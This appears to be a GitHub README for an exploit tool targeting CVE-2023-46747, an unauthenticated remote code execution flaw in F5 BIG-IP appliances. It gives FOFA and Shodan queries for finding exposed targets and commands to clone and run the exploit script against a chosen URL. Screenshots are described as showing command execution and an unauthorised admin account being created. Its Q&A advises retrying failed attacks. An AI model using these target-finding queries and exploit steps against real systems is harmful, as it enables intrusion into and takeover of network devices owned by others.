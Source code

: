# Vulnerability Details  
## fofa：
```
(title="BIG-IP&reg;" || icon_hash="-335242539")
```
## shodan  
```
title:"BIG-IP&reg;"
```

## Affected versions  
https://my.f5.com/manage/s/article/K000137353
# Vulnerability Recurrence
1. At this time, the user here is only `admin`:
![image](https://github.com/W01fh4cker/CVE-2023-46747-EXP/assets/101872898/9171b074-ef4b-41bb-bbb6-e40085e0fa9a)

2. Execute the script:
```
git clone https://github.com/W01fh4cker/CVE-2023-46747-RCE.git
cd CVE-2023-46747-RCE
pip install -r requirements.txt
python CVE-2023-46747-RCE.py -u https://192.168.161.190
# python CVE-2023-46747-RCE.py -u https://192.168.161.190 -p http://127.0.0.1:7890
```
Successfully executed command:  
![image](https://github.com/W01fh4cker/CVE-2023-46747-RCE/assets/101872898/64dbb6b4-cb32-4e31-bb53-9ad918097494)


3. A new user was successfully created without authorization here:
![image](https://github.com/W01fh4cker/CVE-2023-46747-RCE/assets/101872898/66fed85c-db33-49d5-8062-cd814f62cdbe)

# Shortcoming  
Exploitation fails in some versions, reference: https://twitter.com/joel_land/status/1729147886615818732.  

# Q & A  
1. Q: Token acquisition failed?  
   A: It cannot be said that there must be no vulnerability in the test site, because creating a user without authorization is not 100% successful. Sometimes you do not create a user in the first step due to some reasons, so the token in the second step cannot be obtained. Therefore, my suggestion is to try a few more times. If it does not work, it may mean that there is indeed no vulnerability.  
# Digression
You can use this script https://github.com/BishopFox/bigip-scanner to collect F5 BIG-IP version information. It's great!  
# Reference
https://github.com/projectdiscovery/nuclei-templates/pull/8500  
https://mp.weixin.qq.com/s/wUoBy7ZiqJL2CUOMC-8Wdg  
https://www.praetorian.com/blog/refresh-compromising-f5-big-ip-with-request-smuggling-cve-2023-46747
